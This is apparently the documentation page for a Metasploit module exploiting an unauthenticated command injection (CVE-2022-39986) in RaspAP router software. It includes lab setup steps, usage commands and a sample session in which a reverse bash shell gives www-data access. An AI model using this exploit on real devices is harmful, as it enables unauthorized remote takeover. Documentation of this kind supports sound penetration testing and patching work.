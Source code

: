 ## Vulnerable Application

RaspAP is feature-rich wireless router software that just works
on many popular Debian-based devices, including the Raspberry Pi.

A Command injection vulnerability in RaspAP versions 2.8.0 thru 2.8.7 allows
unauthenticated attackers to execute arbitrary commands via the cfg_id
parameter in /ajax/openvpn/activate_ovpncfg.php and /ajax/openvpn/del_ovpncfg.php.

This Metasploit exploit module targets a command injection vulnerability (CVE-2022-39986) in RaspAP's web-gui PHP project,
The vulnerability affects versions of `RaspAP` between `2.8.0` and `2.8.7`. By exploiting this flaw, an attacker can execute
arbitrary commands. This issue was discovered and reported by Ismael0x00.
Check [here](https://medium.com/@ismael0x00/multiple-vulnerabilities-in-raspap-3c35e78809f2) for the original writeup.

## Testing
For installing the vulnerable version follow the steps below,
1. Follow the manual installation steps given [here](https://docs.raspap.com/manual/)
2. After setting up the service, navigate to the `/var/www/html` directory
3. Do `git checkout 2.8.0` for switching to the vulnerable version

**Note: Project can also be installed inside a ubuntu/debian docker containers**

## Verification Steps

1. msfconsole
2. Do: `use exploit/unix/http/raspap_rce`
3. Do: `set RHOST [IP]`
4. Do: `set RPORT [PORT]`
5. Do: `check`

## Options

## Scenarios

```
msf6 > use exploit/unix/http/raspap_rce 
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(unix/http/raspap_rce) > set rhosts localhost
rhosts => localhost
msf6 exploit(unix/http/raspap_rce) > set lhost 192.168.2.101
lhost => 192.168.2.101
msf6 exploit(unix/http/raspap_rce) > set lport 4444
lport => 4444
msf6 exploit(unix/http/raspap_rce) > run

[*] Started reverse TCP handler on 192.168.2.101:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version Detected: 2.8.0
[*] Sending exploit

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

